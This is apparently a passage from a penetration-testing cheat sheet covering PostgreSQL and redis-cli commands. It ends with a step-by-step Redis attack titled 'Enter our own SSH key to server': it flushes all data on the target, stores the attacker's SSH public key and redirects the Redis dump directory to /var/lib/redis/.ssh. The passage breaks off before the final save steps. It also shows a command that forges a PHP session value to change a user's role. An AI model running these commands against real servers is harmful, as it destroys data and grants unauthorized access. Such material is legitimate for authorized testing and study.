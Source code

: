 #### 5)

    \du (List users roles)

#### 6) 

    select * from TABLE;

#### 7)

    SHOW rds.extensions; (List installed extensions)

# REDIS-CLI SHELL NAVIGATION

#### 1) 

    redis-cli -h HOST -u USER -a PASSWORD -p PORT

#### 2) 

    CONFIG GET * (Query the configuration of the redis instance)

#### More commands

    > AUTH <PASSWORD>
    > AUTH <USERNAME> <PASSWORD>
    > INFO SERVER
    > INFO keyspace
    > CONFIG GET *
    > SELECT <NUMBER>
    > KEYS *
    > HSET // set value if a field within a hash data structure
    > HGET // retrieves a field and his value from a hash data structure
    > HKEYS // retrieves all field names from a hash data structure
    > HGETALL // retrieves all fields and values from a hash data structure
    > GET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b
    > SET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b "username|s:8:\"<USERNAME>\";role|s:5:\"

#### Enter our own SSH key to server

    redis-cli -h <RHOST>
    
    echo "FLUSHALL" | redis-cli -h <RHOST>

    (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /PATH/TO/FILE/<FILE>.txt

    cat /PATH/TO/FILE/<FILE>.txt | redis-cli -h <RHOST> -x set s-key

    <RHOST>:6379> get s-key

    <RHOST>:6379> CONFIG GET dir

    1) "dir"

    2) "/var/lib/redis"

    <RHOST>:6379> CONFIG SET dir /var/lib/redis/.ssh
